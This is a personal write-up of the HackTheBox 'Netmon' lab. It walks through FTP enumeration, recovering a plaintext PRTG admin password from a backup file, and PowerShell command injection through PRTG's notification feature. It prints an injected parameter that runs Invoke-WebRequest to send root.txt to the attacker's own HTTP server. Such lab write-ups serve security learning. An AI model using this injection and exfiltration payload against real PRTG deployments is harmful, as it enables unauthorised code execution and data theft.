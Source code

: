 ```yaml
---
layout: page
title: HackTheBox Netmon
---
```


Netmon teaches about vulnerabiities associated with the PRTG Network Monitor. Exploiting this box requires some enumeration knowledge of windows, FTP, some knowledge of PRTG network monitor (lots of googling was done during this challenge), and a little bit of knowledge of powershell. In the method that I used to exploit netmon (that will be shown on this writeup), I also used (and learned how to use by doing this challenge) SimpleHTTPServer on kali linux.

### Enumeration
Doing a simple ```nmap -sC -sV -oA scan 10.10.10.152``` yields the following result:

![image](https://user-images.githubusercontent.com/41026969/55495150-48a5d500-560a-11e9-91e7-17d015735d37.png)

So from running the nmap scan I see that the box is running a windows server and that it is running with something called "PRTG Network Monitor." Also we see that the server allows anonymous access through FTP this means we can type in our username as ```anonymous``` and type in any random password and it'll allow us in as a user... interesting let's check that out:

![image](https://user-images.githubusercontent.com/41026969/55495577-3710fd00-560b-11e9-816a-70dc68f5ae71.png)

So immediately after I ftp'ed in, I did a quick ```ls -la``` check to see all the directories (the ```-la``` puts it in listed format and shows all files) and files.

#### Getting the user flag
I see that there is a ```Users``` directory that I can access. Going into that directory and doing another ```ls``` check reveals two directories: ```Administrator``` and ```Public```. However, doing a ```ls -la``` check to also view hidden directories there a few more that did not show up before, we'll check those out later. (when I initially did this challenge, I just did a ```ls``` check and only knew about the two directories...)

So first I tried changing directory into Administrator directory and failed (got a ```550 access is denied```), so I go into the User ```Public``` and I was able to get in, no access denied, so I did a ```ls -la``` check. Doing so I discovered ```user.txt```! (You can use the ```get``` command within ftp to download the file inside into your host machine, so I did ```get user.txt``` and was able to use ```cat``` to read the file).

### Enumeration continued...
Now onto getting the root flag... I did some more enumerating by going to the box IP: ```10.10.10.152``` and this is the homepage:

![image](https://user-images.githubusercontent.com/41026969/55510156-97179b80-562b-11e9-9b88-d99f33042174.png)

So the homepage confirms that the server is indeed running with PRTG Network Monitor and on the bottom the version number is listed ```PAESSLER PRTG Network Monitor 18.1.37.13956```. I initially tried a bunch of normally default credentials, none worked. I even looked into the PRTG Network Monitor manual and tried the default credentials that is listed and that didn't work... had to do some more googling...

Doing some googling of PRTG Network Monitor, I came across this [reddit thread](https://www.reddit.com/r/sysadmin/comments/862b8s/prtg_gave_away_some_of_your_passwords/) and according to the thread PRTG Network Monitor version 17.4+ can be effected, so it's possible that we can get the administrator creds by looking at some backup files due to the way PRTG Network Monitor stored backups unencrypted.

### Exploitation
Exploitation of this machine can be split up as a two step process. 

#### Part 1 - Getting the Admin credits to the website
So by doing some googling about the PRTG network monitor and some vulnerabilities associated with it, I came across the reddit thread mentioned earlier in this walkthrough that says the credentials are stored somewhere in the backup files. Combing through the directories there are a couple that are associated with PRTG:

first directory: ```/Program Files (x86)/PRTG Network Monitor```

also in that ```Users``` directory from earlier, there were a few hidden users, going through those I found another directory that has to do with PRTG...

second directory: ```/Users/All users/Paessler/PRTG Network Monitor```

Going through both directories, the first one I mentioned didn't have any of the logs mentioned, however the second one does... Doing an ```ls -la``` check reveals the following:  

![image](https://user-images.githubusercontent.com/41026969/55642080-7a02da00-579d-11e9-884b-e7e331d57306.png)

Here, there's a few files that are suspicious: the ```PRTG Configuration.dat```, ```PRTG Configuration.old```, and ```PRTG Configuration.old.bak```. 

After spending some time skimming through the log files, opening ```PRTG Configuratoin.old.bak``` indeed contains credentials in plaintext shown below. (this part took some patience and guidance and a lot of CNTRL + F...)

![image](https://user-images.githubusercontent.com/41026969/55642341-33fa4600-579e-11e9-9a80-4448298a6edb.png)

NOTE: for these credentials... when I first typed them into the site, it turned out it was wrong... Though if you notice in the password it says the year is 2018 but (at the time of writing this writeup/doing this challenge) it's 2019, trying to replace the password to ```PrTg@dmin2019```... it worked!

![image](https://user-images.githubusercontent.com/41026969/55642523-b71b9c00-579e-11e9-8345-1fca6c30eae2.png)

Above is the homepage of logging into PRTG as a system administrator!! Now onto the next part.

#### Part 2 - Getting some code execution to work and getting the root flag

Doing some further googling, I came across a vulnerability discovered that includes the version that I'm working with on [this website](https://www.codewatch.org/blog/?p=453). This vulnerability's attack vector is the notification system used within the website.

Basically according to the article above, there's a notification system within the admin page with some default testing scripts. One of which (the ```.ps1``` script) takes in argument/parameter input without any checks which allows the ability to inject other Powershell code. The notification system can be found under ```Setup > Account Settings > Notifications```. 

Reading the ```.ps1``` file, we need to first supply the name of the .txt file created (which can be anything we want), but we can add powershell code right after to get remote code execution.

The way I found the root flag was to use python's SimpleHTTPServer and use Powershell's ```Invoke-WebRequest``` to get the output from some powershell commands. In this case, my plan was to use ```type``` to output the root.txt file and send it to my SimpleHTTPServer. This had some guess and checking with the ```/Users/Administrator``` directory but eventually I got the root at ```Users/Administrator/Desktop/root.txt```.

To do this, I first edited the ```Email and push notificatoins to Admin``` at the notifications page. Then you can scroll down and turn on the ```Execute Program```. Then you can select the program file ```outfile.ps1``` and add the Powershell inject parameter. The parameter I used was: ```test.txt; Invoke-WebRequest http://10.10.14.4:8000/$(type c:/Users/Administrator/Desktop/root.txt)```. This parameter will basically create a ```test.txt``` file... but then the extra powreshell code makes a webrequest to my IP that reads the ```root.txt```. The notification system is shown below:

![image](https://user-images.githubusercontent.com/41026969/55645043-81c67c80-57a5-11e9-9ad5-f09906225073.png)

(I replaced ```IP``` and ```PORT``` with my IP and port the the SimpleHTTPServer was on.)

Run the SimpleHTTPServer by doing ```python -m SimpleHTTPServer```

Then after, on the PRTG notification page, you can click the checkmark box on the right of ```Email and push notification to Admin``` (the one you just edited) and click the bell icon to run it. After you should get the root flag!

![image](https://user-images.githubusercontent.com/41026969/55645224-04e7d280-57a6-11e9-8bcd-b6ba21759399.png)

NOTE: it places the notification in a queue so you may have to wait a few seconds to a couple minutes...

### Flags
User: ```/Users/Public/user.txt```

Root: ```/Users/Administrator/Desktop/root.txt```